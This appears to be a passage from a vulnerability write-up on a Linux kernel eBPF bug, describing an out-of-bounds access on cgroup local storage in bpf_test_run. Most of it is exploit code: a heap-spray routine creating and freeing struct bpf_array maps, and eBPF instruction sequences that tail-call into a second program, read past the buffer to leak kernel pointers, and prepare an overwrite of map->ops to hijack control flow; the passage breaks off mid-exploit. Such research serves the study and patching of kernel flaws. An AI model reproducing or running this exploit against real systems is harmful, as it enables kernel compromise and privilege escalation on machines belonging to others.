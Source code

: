Just like description in `Cause anaylysis`, it's possible to do oob of the buf of local storage. I construct the heap feng shui in advance to make the local storage buf requested in `bpf_test_run` fall into a pile of `struct bpf_array`. In this way, after we can do OOB read and write of the local storage buf, we can leak information and hijack the control flow by reading and writing the `struct bpf_array`:
```
    //Before run the prog, do heap fengshui
    //Create many 'struct bpf_array', which will use kmalloc-4k
    int array_map_list[0x100];
    union bpf_attr map_attrs =
    {
        .map_type = BPF_MAP_TYPE_ARRAY,
        .key_size = 4,
        .value_size = 0x3e00,
        .max_entries = 1,
    };
    for(int i=0;i<0x100;i++){
           array_map_list[i] = create_map(&map_attrs);
    }
    //Delete some of them, we hope that 'bpf_test_run->bpf_cgroup_storage_alloc' can get back the released heap memory
    for(int i=0;i<0x100;i++){
        if(i%2==0)
                close(array_map_list[i]);
    }
```

We need two eBPF programs: `A` and `B`, and two cgroup maps: `cgroup_map0` and `cgroup_map1`. The value size of `cgroup_map0` is 0x3f00 and the value size of `cgroup_map1` is 0xf000.

The code of progam `A` is simple:
```
        //program A
        BPF_LD_MAP_FD(BPF_REG_2, pCtx->cgroup_map0), //here will call bpf_cgroup_storage_assign, the storage->buf will use kmalloc-4k
        BPF_LD_MAP_FD(BPF_REG_2, pCtx->prog_array_map),
        BPF_MOV64_IMM(BPF_REG_3, 0),
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_tail_call), //here will call program B
        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_EXIT_INSN(),
```
It loads `cgroup_map0` and finally do tail call to program `B`.

And in program `B`, we do oob to the local storage buf and hijack the RIP through overwritng the `struct bpf_array -> map -> ops`:
```
        BPF_LD_MAP_FD(BPF_REG_1, pCtx->cgroup_map1),
        BPF_MOV64_IMM(BPF_REG_2, 0), //BPF_CGROUP_STORAGE_SHARED
        BPF_RAW_INSN(BPF_JMP | BPF_CALL, 0, 0, 0, BPF_FUNC_get_local_storage),
        //Now we get the heap created in  bpf_test_run -> bpf_cgroup_storage_alloc.
        //We try to do oob read to confirm if the next heap is a 'struct bpf_array'
        BPF_LDX_MEM(BPF_H, BPF_REG_1, BPF_REG_0, 0x3ff0),//Read 'struct bpf_array . map . ops' low 2 bytes
        BPF_JMP_IMM(BPF_JEQ, BPF_REG_1, ARRAY_MAP_OPS_OFF&0xffff, 2), //Check if the next heap is a 'struct bpf_array'
        BPF_MOV64_IMM(BPF_REG_0, 0),
        BPF_EXIT_INSN(),

        BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_0, 0x3ff0),//Get map -> ops, the address of array_map_ops; Get the offset from debugging
        BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_0, 0x3ff0+0xc0), //Get map ->rcu list. It is a two-way pointer pointing to itself. We will use w;

        BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 0x50),//Get bpf_array->value address. We put the map->ops here.
```